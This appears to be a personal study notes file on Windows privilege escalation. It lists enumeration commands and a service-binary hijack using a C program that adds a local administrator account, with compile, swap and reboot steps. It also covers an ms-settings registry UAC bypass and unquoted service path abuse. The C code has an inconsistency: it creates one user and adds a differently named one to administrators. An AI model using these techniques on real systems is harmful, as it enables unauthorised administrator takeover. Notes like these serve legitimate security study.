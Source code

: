 # Windows Privilege Escalation Notes  

## net commands  

Pass a username and gather more info.  

`net user someUsername`  

To find other users.  

`net user`  



Check who is in local administrators group.  

`net localgroup Administrators`  

## os

Find the version and arch of the os.  

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`  


Find user privileges.  

`whoami /priv`

Find running processes.  

`tasklist`  

Find running processes with powershell.  

`Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}`  

## Services  

Are services running program files binaries? These are user installed and the structure and permissions are set by the user or developer.  

Permissions of a service.  

`icacls "C:\Program Files\someDirectory\bin\someBinary.exe"`  

Most relevant permissions.  

```
Mask | Permissions
------------------
F    | Full access 
M    | Modify access
RX   | Read and Execute access
R    | Read-only access
W    | Write-only access
```  

If we find a service with a binary that has full read/write permissions, it can be replaced with something of my choosing.  

The following C code creates a user 'Kurt' and adds him to the local administrator group.  

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user Kurt password123 /add");
  i = system ("net localgroup administrators evil /add");
  
  return 0;
}
```  

This can be compiled on a kali machine.  

`i686-w64-mingw32-gcc adduser.c -o adduser.exe`  

Move the service binary to keep the original intact.  

`move "C:\Program Files\someDirectoy\bin\someBinary.exe" "C:\Program Files\someDirectory\bin\someBinary_original.exe"`  

Move the malicious binary to the binary the service runs.  

`move adduser.exe "C:\Program Files\someDirectory\bin\someBinary.exe"`  

If we do not have permission to restart this service, we can check if it starts in auto.  

`wmic service where caption="SomeService" get name, caption, state, startmode`  

If the user has reboot permission, a reboot can restart the service automatically and run the malicous binary.  

`shutdown /r /t 0`  


## Integrity levels  

Find group information and integrity level.  

`whoami /groups`  

Change admin password.  

`net user admin newpassw0rd!`  

To change to high integrity level while admin.  

`powershell.exe Start-Process cmd.exe -Verb runAs`  

## Application manifest  

The application manifest is an xml file that informs the os how to handle the program when it is started.  

Using SysinternalsSuite.  

`sigcheck.exe -a -m C:\Windows\System32\aBinary.exe`  

## Processes  

From SysinternalsSuite, use this binary to find out information about a running process.  

`procmon.exe`  

## Reg Keys  

Find attempts to interact with registry keys that give the error.  

`NAME NOT FOUND`  

To tamper with registry keys, we can find our hive with read/write access, this is current user HKEY_CURRENT_USER.  

`HKCU`  

To add a registry key.  

`REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command`  

To add a registry key with v for value name and t for the type.  

`REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ`  

To add a value to a registry key, d is the value and f to add silently.  

`REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f`  

## Unquoted service paths  

This attack is possible when a service directory and sub-directory has write access but the files within cannot be replaced.  

Windows will attempt to execute this unquoted path.  

`C:\Program Files\My Program\My Service\service.exe`  

In the following way.  

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```  

In the above, a executable  

`My.exe`  

Could be placed in.  

`C:\Program Files\My Program`  

If write permissions are misconfigured.  

## Third-party driver attacks  

Enum drivers.  

`driverquery /v`  

Running gcc on windows, run the bat file first to set up PATH env variable.  

```
mingw-w64.bat
gcc --help
```  

